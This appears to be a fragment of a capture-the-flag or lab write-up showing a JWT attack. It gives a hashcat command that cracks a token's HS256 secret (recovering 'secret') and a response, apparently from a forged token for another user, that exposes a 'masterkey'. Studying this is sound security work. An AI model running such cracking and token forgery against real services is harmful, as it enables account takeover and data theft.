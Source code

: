```php

```

<img width="826" height="735" alt="image" src="https://github.com/user-attachments/assets/09ad7ad8-a9e8-45a0-946b-32c2eabd9a59" />


```
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFsaWNlIiwiZW1haWwiOiJhbGljZUBleGFtcGxlLmNvbSIsImlhdCI6MTc1ODE5NTYxOSwiZXhwIjoxNzU4MTk5MjE5fQ.2gIOTaxaTg31ApTAvPi7_LW8SG5QsPryi9GQThGNwOk /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```


<img width="1081" height="607" alt="image" src="https://github.com/user-attachments/assets/29f0e292-b703-48cc-9079-ffb0722d4634" />



```
secret
```


<img width="1462" height="871" alt="image" src="https://github.com/user-attachments/assets/06c13f47-eba6-4246-8186-5eccbf436454" />

```json
{"user":{"username":"bob","email":"bob@example.com","masterkey":"b90ca1d9ff843bb1b4752acb6e16939c\n"}}
```



